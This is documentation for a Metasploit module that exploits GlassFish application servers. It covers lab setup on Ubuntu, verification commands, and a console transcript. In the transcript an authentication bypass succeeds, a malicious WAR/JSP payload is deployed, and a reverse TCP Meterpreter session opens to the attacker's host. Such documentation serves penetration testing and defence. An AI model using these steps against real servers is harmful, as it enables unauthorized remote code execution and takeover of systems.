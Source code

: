 ## Vulnerable Application

### Description

This module logs in to a GlassFish Server (Open Source or Commercial) using various methods (such as authentication bypass, default credentials, or user-supplied login), and deploys a malicious war file in order to get remote code execution. It has been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System Application Server 9.x. Newer GlassFish versions do not allow remote access (Secure Admin) by default, but is required for exploitation.

### GlassFish

GlassFish is a open-source application server project started by Sun Microsystems for the Java EE platform and now sponsored by Oracle Corporation. The supported version is called Oracle GlassFish Server. GlassFish is free software, dual-licensed under two free software licences: the Common Development and Distribution License (CDDL) and the GNU General Public License (GPL) with the classpath exception.

### Installation

For testing purposes, the following explains how you can install a vulnerable version of GlassFish on Ubuntu Linux:

1. Make sure you have a clean Ubuntu box
2. Open a terminal on the Ubuntu box, and do: ```sudo apt-get install default-jdk```. We assume this gives you JDK 8.
3. Download [GlassFish 4.0](http://download.java.net/glassfish/4.0/release/glassfish-4.0.zip)
4. Unzip GlassFish-4.0, navigate to the bin directory, and then start ```asadmin```
5. In the asadmin console, do ```start-domain domain1```. This will start GlassFish.
6. On the Ubuntu box, go to http://localhost:4848 with a browser
7. On the left menu, click on ```Domain```
8. On the right, click on ```Administrator Password```
9. Set a new password for admin
10. On the left menu, click on ```server (Admin server)```
11. On the right, click on ```Secure Administrator```
12. Click on ```Enable Secure Admin```
13. You will need to wait for up to a minute to make sure GlassFish is up and running again on port 4848.

If you are on a different platform (such as Windows), the installation should be quite similar.

## Verification Steps

1. Do: ```use exploit/multi/http/glassfish_deployer```
2. Do: ```set RHOST [IP]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Scenarios

### GlassFish 3.0.1 on Windows 2003

```
msf > use exploit/multi/http/glassfish_deployer
msf exploit(glassfish_deployer) > set RHOST 172.16.182.237
RHOST => 172.16.182.237
msf exploit(glassfish_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(glassfish_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(glassfish_deployer) > exploit
[*] Started reverse TCP handler on 172.16.182.112:4444 
[*] Glassfish edition: GlassFish Server Open Source Edition 3.0.1
[*] Trying GlassFish authentication bypass..
[+] http://172.16.182.237:4848// - GlassFish - SUCCESSFUL authentication bypass
[*] Uploading payload...
[*] Successfully uploaded
[*] Executing /icDfejbl6Vc9ZobfgVv9LIBES/SV7fVtWuTQFZqtzMPiJ.jsp...
[*] Sending stage (30355 bytes) to 172.16.182.237
[*] Meterpreter session 1 opened (172.16.182.112:4444 -> 172.16.182.237:1472) at 2017-03-27 19:07:58 -0500
[*] Getting information to undeploy...
[*] Undeploying icDfejbl6Vc9ZobfgVv9LIBES...
[*] Undeployment complete.

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : juan-6ed9db6ca8
OS          : Windows 2003 5.2 (x86)
Meterpreter : java/java
meterpreter > exit
[*] Shutting down Meterpreter...

```
